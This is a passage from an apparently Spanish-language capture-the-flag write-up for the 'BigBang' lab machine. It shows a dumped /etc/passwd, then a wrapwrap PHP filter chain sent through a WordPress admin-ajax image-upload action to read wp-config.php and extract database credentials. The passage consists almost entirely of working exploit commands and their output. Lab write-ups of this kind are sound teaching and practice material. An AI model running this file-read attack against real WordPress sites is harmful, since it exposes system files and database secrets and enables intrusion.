 ```bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologi

```

Parece que estamos en un contenedor docker al no haber mas usuarios que root con el bash; 
vamos a intentar leer el wp-config con el mismo procedimiento:
```bash
(venv) ➜  wrapwrap git:(main) ✗ python3 wrapwrap.py '../wp-config.php' 'GIF89a' '' 500000
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=1449).
(venv) ➜  wrapwrap git:(main) ✗ export evil_url="$(cat chain.txt )"                     
(venv) ➜  wrapwrap git:(main) ✗ curl 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-d "action=upload_image_from_url&id=1&accepted_files=image/gif&url=${evil_url}"

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/02\/1-5.png","attachment_id":160}%  

(venv) ➜  wrapwrap git:(main) ✗ curl 'http://blog.bigbang.htb//wp-content//uploads//2025//02//1-5.png' -o wpconfig.png
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3348  100  3348    0     0  22633      0 --:--:-- --:--:-- --:--:-- 22775


(venv) ➜  wrapwrap git:(main) ✗ strings wpconfig.png 
GIF89a<?php
 * The base configuration for WordPress
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 * This file contains the following configurations:
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 * @package WordPress
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );
/** Database username */
define( 'DB_USER', 'wp_user' );
/** Database password */
define( 'DB_PASSWORD', 'wp_password' );
/** Database hostname */
define( 'DB_HOST', '172.17.0.1' );
/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );
/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
/**#@+
 * Authentication unique keys and salts.
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
```